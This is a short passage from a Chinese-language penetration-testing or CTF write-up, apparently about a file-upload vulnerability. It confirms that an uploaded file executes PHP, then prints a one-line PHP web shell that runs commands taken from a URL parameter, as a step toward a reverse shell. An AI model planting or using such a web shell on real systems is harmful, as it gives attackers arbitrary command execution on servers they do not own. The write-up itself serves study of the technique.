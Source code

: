 然后访问这个路径，发现确实执行了`php`代码

![](./pic/31.jpg)

# 命令执行到反弹shell

那么就可以构造一个命令执行的代码，然后上传

```php
<?php system($_GET['cmd']);?>
```

还是以浏览器上传的方式

![](./pic/32.jpg)
